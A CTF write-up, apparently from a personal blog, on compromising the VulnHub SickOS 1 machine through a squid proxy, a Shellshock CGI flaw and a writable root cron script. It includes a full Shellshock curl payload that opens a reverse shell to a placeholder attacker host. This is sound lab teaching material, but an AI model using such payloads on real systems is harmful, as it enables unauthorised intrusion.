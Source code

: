 ```yaml
---
title: "SickOS 1"
date: 2024-07-22
draft: false
summary: "Writeup for SickOS 1 CTF challenge on VulnHub."
tags: ["linux", "cron", "shellshock"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/sickos1/cover.webp"
  caption: "SickOS 1 VulnHub Challenge"
  alt: "SickOS 1 cover"
platform: "VulnHub"
---
```


SickOS is a boot2root challenge with the objective of compromising the machine and gaining root privilege on it.
<!--more-->
To download **sickos 1**, click on the link given below :-
- https://www.vulnhub.com/entry/sickos-11,132/

## Recon

I performed a network scan to identify the targe IP.

```bash
nmap -sn 192.168.1.0/24                                        
```

I then performed an **nmap** aggressive scan to identify open ports, services running on them and additional service information.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN sick1.nmap
```

![](https://cdn.ziomsec.com/sickos1/1.webp)

## Initial Foothold

I accessed the web server on the open port but got an error message. This error page revealed the version of squid server.

![](https://cdn.ziomsec.com/sickos1/2.webp)

I googled the **squid** version and found this **hacktricks** article where it referenced a scanner to find open ports:
- https://book.hacktricks.xyz/network-services-pentesting/3128-pentesting-squid

![](https://cdn.ziomsec.com/sickos1/3.webp)

Hence, I downloaded the **python** script and ran it to find discover additional ports.
- https://github.com/aancw/spose

```shell
git clone https://github.com/aancw/spose.git
cd spose
python spose.py --proxy http://TARGET:SQUID_PORT --target TARGET
```

![](https://cdn.ziomsec.com/sickos1/4.webp)

I then used the **squid** server as proxy and accessed port 80.

```shell
curl --proxy http://TARGET:3128 http://TARGET:80
```

![](https://cdn.ziomsec.com/sickos1/5.webp)

I then set the proxy on my browser and accessed it through the browser.

![](https://cdn.ziomsec.com/sickos1/6.webp)

![](https://cdn.ziomsec.com/sickos1/7.webp)

Since the landing page did not reveal anything, I used **gobuster** to find hidden files.

```shell
gobuster dir --proxy http://TARGET:3128 -u http://TARGET/ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
```

![](https://cdn.ziomsec.com/sickos1/8.webp)

The *robots.txt* file could contain interesting endpoints, so I accessed it:

```shell
curl --proxy http://TARGET:3128 http://TARGET/robots.txt
```

![](https://cdn.ziomsec.com/sickos1/9.webp)

I revealed an endpoint leading to *wolf CMS*.

![](https://cdn.ziomsec.com/sickos1/10.webp)

The page did not reveal anything interesting, so I ran a **nikto** scan on the target.

```shell
nikto -useproxy http://TARGET:3128 -h http://TARGET
```

![](https://cdn.ziomsec.com/sickos1/11.webp)

The scan identified a **Shellshock** vulnerability on the server.

> [!INFO] About Shellshock
> **Shellshock** (also known as Bashdoor) is a security bug in the Bash (Bourne Again Shell) command-line shell, widely used in Unix-based systems such as Linux and macOS. Discovered in September 2014, Shellshock allows attackers to execute arbitrary commands on vulnerable systems.

- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

I referred to the above article and got a reverse shell by exploiting the vulnerability.

```shell
curl -H "User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/KALI/PORT 0>&1" --proxy http://TARGET:3128 http://TARGET/cgi-bin/status
```

![](https://cdn.ziomsec.com/sickos1/12.webp)

## Privilege Escalation

To perform further enumeration, I downloaded the **linux smart enumeration** script locally and transferred it to the target.

![](https://cdn.ziomsec.com/sickos1/13.webp)

![](https://cdn.ziomsec.com/sickos1/14.webp)

It discovered a python file that was being run by root.

![](https://cdn.ziomsec.com/sickos1/15.webp)

I read the file and found out that it just had few print statements.

![](https://cdn.ziomsec.com/sickos1/16.webp)

Since I had write access over it, I added a code block that would get me a reverse shell.

![](https://cdn.ziomsec.com/sickos1/17.webp)

After the file got executed by root, I got a reverse shell on my listener.

![](https://cdn.ziomsec.com/sickos1/18.webp)

Finally I captured the flag from */root* directory.

![](https://cdn.ziomsec.com/sickos1/19.webp)

## Closure

Here's a summary of how I obtained the root flag:
- I used the **squid** proxy to connect to the target web server.
- Upon accessing the target, I performed a **nikto** scan and identified a **shellshock** vulnerability in one of the paths.
- I exploited this vulnerability to execute a **bash** script and obtain a reverse shell.
- I then ran the **linux smart enumeration** script to identify misconfigurations for privilege escalation.
- I modified the Python script that was executed via **crons** with **root** privileges.
- With the reverse shell as the **root** user, I captured the flag from the */root* directory.

That's it from my side, until next time :)
Happy Hacking! 🎉

---